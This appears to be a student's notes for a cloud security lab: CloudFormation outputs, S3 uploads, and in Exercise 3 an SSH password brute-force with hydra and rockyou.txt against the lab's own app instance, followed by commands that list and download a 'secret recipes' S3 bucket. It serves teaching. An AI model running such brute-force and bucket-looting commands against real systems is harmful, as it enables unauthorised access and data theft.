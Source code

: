 # Exercise 1

## Outputs

BucketArnVPCFlowLogs	arn:aws:s3:::cand-c3-vpc-flow-logs-787614237147
BucketNameRecipesFree	cand-c3-free-recipes-787614237147
BucketNameRecipesSecret	cand-c3-secret-recipes-787614237147

ApplicationInstanceIP	ec2-3-224-223-36.compute-1.amazonaws.com
ApplicationURL	c1-web-service-alb-143963776.us-east-1.elb.amazonaws.com
AttackInstanceIP	ec2-52-202-180-62.compute-1.amazonaws.com

## Upload data

aws s3 cp free_recipe.txt s3://cand-c3-free-recipes-787614237147/ --region us-east-1

aws s3 cp secret_recipe.txt s3://cand-c3-secret-recipes-787614237147/ --region us-east-1

## Test app

http://c1-web-service-alb-143963776.us-east-1.elb.amazonaws.com/free_recipe


# Exercise 3

## Connect to attack instance

ssh -i ../recipe-vault-key.pem ubuntu@ec2-52-202-180-62.compute-1.amazonaws.com
ssh -i ../recipe-vault-key.pem ubuntu@ec2-3-85-137-57.compute-1.amazonaws.com

## Run the attack

hydra -l ubuntu -P rockyou.txt ssh://ec2-3-224-223-36.compute-1.amazonaws.com

## Task 2
### view the files in the secret recipes bucket
aws s3 ls  s3://cand-c3-secret-recipes-787614237147/ --region us-east-1
### download the files
aws s3 cp s3://cand-c3-secret-recipes-787614237147/secret_recipe.txt  .  --region us-east-1
### view contents of the file
cat secret_recipe.


# Exercise 4

## Connect to web service instance

ssh -i ../recipe-vault-key.pem ubuntu@ec2-3-224-223-36.compute-1.amazonaws.com


aws cloudformation create-stack --region us-east-1 --stack-name c3-app --template-body file://starter/c3-app.yml --parameters ParameterKey=KeyPair,ParameterValue=recipe-vault-key.pem --capabilities CAPABILITY_IAM